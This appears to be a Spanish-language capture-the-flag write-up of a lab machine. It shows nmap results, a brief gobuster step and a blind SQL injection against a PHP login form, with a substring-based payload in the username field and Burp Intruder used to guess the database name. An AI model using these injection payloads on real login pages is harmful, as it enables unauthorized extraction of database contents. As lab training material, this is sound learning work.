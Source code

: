 ### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240204210908.png]]

![[Pasted image 20240204211038.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240204213231.png]]

![[Pasted image 20240204213305.png]]

### Fuzzing con gobuster

![[Pasted image 20240204213332.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240204220002.png]]

intruder
![[Pasted image 20240204220113.png]]

configuramos el payloads
![[Pasted image 20240204220220.png]]
obtenemos como respuesta 
```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

![[Pasted image 20240204222627.png]]